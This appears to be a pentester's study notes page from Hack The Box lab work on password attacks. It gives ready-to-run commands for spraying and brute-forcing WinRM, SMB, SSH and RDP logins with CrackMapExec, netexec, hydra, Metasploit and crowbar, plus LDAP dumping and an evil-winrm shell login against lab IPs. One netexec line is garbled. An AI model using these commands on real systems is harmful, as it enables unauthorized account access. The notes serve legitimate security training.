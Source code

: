 #auth 

https://academy.hackthebox.com/storage/resources/Password-Attacks.zip

##### [[Pentest/services/SMB/SMB|SMB]], [[LDAP]], [[mssql]], etc.
https://github.com/byt3bl33d3r/CrackMapExec
#CrackMapExec 
```shell
sudo apt-get -y install crackmapexec

# Dictionary-attack / Password-Spraying
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

```shell
crackmapexec --verbose smb 10.129.42.197 -u "user" -p "password" --shares
```
#### [[Pentest/services/SMB/SMB|SMB]] enumeration
list shares
```bash
netexec smb 10.129.128.107  -u michael.wrightson -p Cicada$M6Corpb*@Lp#nZpsmbmap -H 10.129.128.107 --shares
```

#### LDAP
Dump everything (domains/users/etc)
```bash
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.129.128.107 -o dump
```

#### Evil-WinRM
#shell [[bind shell]]
to log in and get the shell:
```bash
sudo gem install evil-winrm
evil-winrm -i 10.129.42.197 -u user -p password
```

[[hydra]]
```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list rdp://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list smb://10.129.42.197
```

```bash
hydra -L user.list -P password.list 10.129.42.197 smb
```

```bash
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Dictionary attack on [[SMB]] use [[metasploit]]
```shell
msfconsole -q
use auxiliary/scanner/smb/smb_login
set PASS_FILE password.list

set SMB_USER jason
set USER_FILE username.list

set stop_on_success true
set RHOST STMIP
run
```

### [[RDP]] Password Spraying
https://github.com/galkan/crowbar
Installation:
```bash
sudo apt install -y crowbar
# or
git clone https://github.com/galkan/crowbar
cd crowbar/
pip3 install -r requirements.txt
```

```bash
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

